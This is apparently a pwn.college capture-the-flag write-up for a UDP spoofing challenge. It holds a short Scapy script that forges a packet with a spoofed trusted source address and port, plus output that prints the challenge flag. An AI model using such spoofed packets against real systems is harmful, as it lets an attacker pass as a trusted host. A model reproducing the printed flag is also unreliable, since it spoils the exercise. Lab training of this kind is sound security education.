 # ✅ UDP-Spoofing-1 Challenge

**Task**:  
There are two dangers to UDP:  
1. It is often used in places where people are already cutting corners for performance's sake.  
2. It forces the programmer to keep track of sessions explicitly.  

This combination can cause security issues.

In this challenge, one side of the connection can confuse a non-trusted connection for a trusted connection, and print the flag.  
Can you trigger this confusion?

> **NOTE**: In this level, the flag will just be printed to the console when you trigger the confusion. We'll work on realistically exfiltrating it later.

---

**Solution**:
```python
from scapy.all import IP, UDP, Raw, send

pkt = IP(dst='10.0.0.2', src='10.0.0.3') / UDP(dport=31338, sport=31337) / Raw(load=b'FLAG')
send(pkt)
```

output:
```
.
Sent 1 packets.
YOUR FLAG: pwn.college{gW3Lms0isRcIaNKYem4r42cR8um.0FN0AjNxwSM0IzMyEzW}
```
---
